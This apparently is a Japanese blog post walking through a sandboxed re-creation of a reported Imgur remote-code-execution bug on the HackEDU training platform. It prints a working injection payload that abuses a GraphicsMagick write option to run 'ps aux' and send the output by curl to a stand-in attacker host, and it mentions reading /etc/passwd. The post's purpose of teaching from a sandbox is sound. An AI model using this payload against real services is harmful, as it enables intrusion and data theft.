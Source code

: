 ```yaml
---
description: サイバーセキュリティに関する体験型学習サービスを提供する「HackEDU」がHackerOneと提携し、過去に報告された脆弱性を再現できるサンドボックス環境をリリースした。HackEDUの無料アカウントを作成するだけで、HackerOneに報告された5つの脆弱性のサンドボックス環境を利用できる。
---
```


# HackerOneに報告された脆弱性をHackEDUで再現する

<time datetime="2019-03-08">Mar 8, 2019</time>

---

サイバーセキュリティに関する体験型学習サービスを提供する「[HackEDU](https://hackedu.io/)」が[HackerOneと提携し、過去に報告された脆弱性を再現できるサンドボックス環境をリリースした](https://www.hackerone.com/blog/Test-your-hacking-skills-real-world-simulated-bugs)。HackEDUの無料アカウントを作成するだけで、HackerOneに報告された5つの脆弱性のサンドボックス環境を利用できる。

今回はバグハンターのneex氏が2017年に報告したImgurという画像共有サイトでのRCE（[#212696](https://hackerone.com/reports/212696)）を取り上げる。neex氏が脆弱性を発見した際の手順を再現しながら詳細を学んでいく。

## ImgurでのRCEの再現

HackEDUの利用者はブラウザからサンドボックス環境にアクセスし、ページ内に用意された仮想ブラウザと仮想プロキシを使って脆弱性を再現する。以下のページが[ImgurでのRCEのサンドボックス環境](https://hackedu.io/hacktivity/5f8e247b-98bc-4b7a-aa97-472dcc34a6f8)である。仮想ブラウザ上の1つ目のタブにImgurを再現したImgerというサイトが、2つ目にコールバックを確認するためのタブが開かれている。

<figure><img src="/assets/2019/hackedu/top.webp" width="770" height="499" decoding="async" alt="" /></figure>

neex氏のレポートによると脆弱性は画像編集機能で見つかっている。Imgurでは画像処理ツールとして人気の高いImageMagickとGraphicsMagickのどちらかが利用されているとneex氏は推測し、どちらのツールにも存在する `-rotate` オプションを用いて調査を始めている。

サンドボックス環境では画像編集時のHTTPリクエストがPOSTメソッドで送られるが、GETメソッドに変更しても問題なく処理される。今回はレポートを忠実に再現するため、仮想プロキシでインターセプトしたHTTPリクエストをGETメソッドに変更した上でパラメータの値を書き換える。

<figure><img src="/assets/2019/hackedu/intercept.webp" width="770" height="392" decoding="async" alt="" /></figure>

Imgurでは画像編集時に送信される `y` パラメータの値を画像処理ツールのコマンドライン引数に挿入していたため脆弱性が生じた。サンドボックス環境でも `y` パラメータの値に ` -rotate 90` を追加すると画像が90度回転する。

<figure><img src="/assets/2019/hackedu/rotate.webp" width="770" height="396" decoding="async" alt="" /></figure>

さらなる調査の結果、ImgurではGraphicsMagickが利用されているとneex氏は確信し、`-write` オプションで任意のコマンドを実行できる仕様を用いてRCEを実証した<sup id="f1">[¹](#fn1)</sup>。PoCでは `y` パラメータから挿入した `ps` コマンドの実行結果を `curl` コマンドで外部のサーバーへ送信している。

サンドボックス環境では `http://attacker-callback.com:9000` へのコールバックを仮想ブラウザの2つ目のタブで確認できる。2つ目のタブを事前に開いてリッスン状態にしてから、1つ目のタブで以下のURLにアクセスすると `ps` コマンドの実行結果を受け取れる。実際の環境ではスペース（%20）を挿入できなかったためか、neex氏は `${IFS}` を代用して文字を区切っている<sup id="f2">[²](#fn2)</sup>。

hxxp://imger.com/edit/process?imageid=cd4caa87977d1469cfeedf5cce8e2992.jpg&a=crop&x=95&y=41%20-write%20|ps${IFS}aux|curl${IFS}hxxp://attacker-callback.com:9000${IFS}-d${IFS}@-&w=768&h=328&random=asdf

<figure><img src="/assets/2019/hackedu/callback.webp" width="770" height="315" decoding="async" alt="" /></figure>

## HackEDUでのHTTPリクエストの再送

今回取り上げた脆弱性はGETパラメータでも再現できたため、仮想ブラウザのアドレスバーからパラメータ操作が可能であった。しかしPOSTパラメータでの脆弱性を検証する場合、HTTPリクエストを何度もインターセプトして書き換えることになる。サンドボックス環境の仮想プロキシにはHTTPリクエストの再送機能が搭載されていないため、愛用のローカルプロキシでの再送を試みる。

サンドボックス環境とはいえ仮想ブラウザから発生するHTTPリクエストはHackEDUのサーバーに送信される。そのためサンドボックス環境のページを開いているブラウザでローカルプロキシを経由すればHTTPリクエストを操作できる。例えばBurp SuiteのRepeaterで以下のHTTPリクエストを再送すると、仮想ブラウザの2つ目のタブに `/etc/passwd` の内容が表示される。

<figure><img src="/assets/2019/hackedu/burp.webp" width="770" height="235" decoding="async" alt="" /></figure>

## 所感

脆弱性のレポートを読むだけと、実際に再現まで確認するとでは学びの量が違う。レポートに記載されていない別のパターンを試すことで新たな発見にもつながるし、記憶にも残りやすい。ソフトウェア製品の脆弱性の場合、修正前の古いバージョンを入手できれば再現は可能である。しかしWebアプリケーションの脆弱性の場合、サイト運営者でなければ修正後の再現は極めて難しい。HackEDUのようなサービスにより実在した脆弱性を容易に再現できるようになれば、バグハンターだけでなく開発者の学びにも役立つだろう。

今回は取り上げなかったが、HackEDUはWebアプリケーションの各種脆弱性のサンドボックス環境やCTF形式の問題も提供している。[無料アカウントではSQLインジェクションのみ](https://hackedu.io/demo)だが、脆弱性の再現から各プログラミング言語での修正まで体験できるコースもある。また年間$750の有料アカウントになれば[CVEが割り振られたソフトウェア製品の脆弱性](https://hackedu.io/vulnerabilities)や、バッファオーバーフローのような脆弱性のサンドボックス環境も利用できるようになる。有料アカウントは7日間の無料体験ができるので、まずは試用してから購入を検討したい。

---

<sup id="fn1">[¹](#f1)</sup> http://www.graphicsmagick.org/GraphicsMagick.html#details-write  
<sup id="fn2">[²](#f2)</sup> https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution
